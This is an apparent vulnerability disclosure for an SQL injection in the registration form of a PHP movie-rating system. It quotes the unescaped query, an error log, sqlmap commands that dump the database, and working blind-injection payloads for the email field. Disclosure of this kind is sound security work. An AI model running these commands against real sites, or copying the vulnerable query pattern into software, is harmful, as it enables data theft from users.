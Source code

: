 # SQL Injection vulnerability was discovered in Sourcecodester's Sentiment Based Movie Success Rating Prediction System  (user registration)

Official Website: https://www.sourcecodester.com/php/15104/sentiment-based-movie-rating-system-using-phpoop-free-source-code.html

Version: 1.0
Related Code file: /msrps/classes/Users.php

---
## CVE-2024-XXXX
```
$chk = $this->conn->query("SELECT * FROM `client_list` where email ='{$email}' ".($id>0? " and id!= '{$id}' " : ""))->num_rows;
```
The email variable is directly inserted into the SQL query without any escaping or parameterization. An attacker could inject malicious SQL code by manipulating the email field. in (line number 135 of Users.php)

Injection parameter: email


Backend Verification for SQLi
---
```
127.0.0.1:46134 [500]: POST /msrps/classes/Users.php?f=save_client - Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'vunerableparam@mail.com'' at line 1 in /home/kali/Downloads/msrps/classes/Users.php:135                                                                                                                     
Stack trace:                                                                                                                                                
#0 /home/kali/Downloads/msrps/classes/Users.php(135): mysqli->query()                                                                                       
#1 /home/kali/Downloads/msrps/classes/Users.php(261): Users->save_client()                                                                                  
#2 {main}                                                                                                                                                   
  thrown in /home/kali/Downloads/msrps/classes/Users.php on line 135   
  ```
---
Step to Reproduce:
---

1. Go to login page and click on [Create a New Account]
2. Fill the form and intercept the POST request in burp
![burp-image](https://github.com/gurudattch/CVEs/blob/main/assets/4.png)
---

4. Copy the **POST** request to notepad and save it.
![notepad](https://github.com/gurudattch/CVEs/blob/main/assets/5.png)

---

6. Now Run **sqlmap** on this request 

`sqlmap -r register_req.txt -p email`

__dump database;__

`sqlmap -r register_req.txt -p email --dump`

```
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 433 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=&firstname=fname&middlename=midname&lastname=lnmae&gender=Male&email=mytest@mail.com' AND 4940=4940 AND 'oqjL'='oqjL&password=password

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=&firstname=fname&middlename=midname&lastname=lnmae&gender=Male&email=mytest@mail.com' AND (SELECT 7178 FROM (SELECT(SLEEP(5)))MFQU) AND 'aOrZ'='aOrZ&password=password
---

```
